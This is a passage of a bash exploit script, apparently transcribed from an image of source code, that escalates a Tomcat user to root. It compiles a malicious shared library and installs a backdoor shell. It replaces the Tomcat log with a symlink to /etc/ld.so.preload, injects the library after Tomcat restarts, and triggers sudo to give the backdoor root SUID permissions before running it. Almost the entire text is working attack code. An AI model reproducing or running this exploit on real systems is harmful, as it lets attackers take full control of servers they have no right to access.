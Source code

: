```bash
gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl
if [ $? -ne 0 ]; then
    echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
    cleanexit 2;
fi

# Prepare backdoor shell
cp $BACKDOORSH $BACKDOORPATH
echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"

# Safety check
if [ -f /etc/ld.so.preload ]; then
    echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
    cleanexit 2
fi

# Symlink the log file to ld.so.preload
rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG
if [ $? -ne 0 ]; then
    echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
    cleanexit 3
fi
echo -e "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"

# Wait for Tomcat to re-open the logs
echo -ne "\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart..."
echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)
 "
while :; do 
    sleep 0.1
    if [ -f /etc/ld.so.preload ]; then
        echo $PRIVESCLIB > /etc/ld.so.preload
        break;
    fi
done

# /etc/ld.so.preload file should be owned by tomcat user at this point
# Inject the privesc.so shared library to escalate privileges
echo $PRIVESCLIB > /etc/ld.so.preload
echo -e "\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`"
echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"

# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
sudo --help 2>/dev/null >/dev/null

# Check for the rootshell
ls -l $BACKDOORPATH | grep rws | grep -q root
if [ $? -eq 0 ]; then 
    echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
    echo -e "\n\033[94mPlease tell me you're seeing this too ;)
  \033[0m"
else
    echo -e "\n[!] Failed to get root"
    cleanexit 2
fi

# Execute the rootshell
echo -e "\n[+] Executing the rootshell $BACKDOORPATH now! \n"
$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
```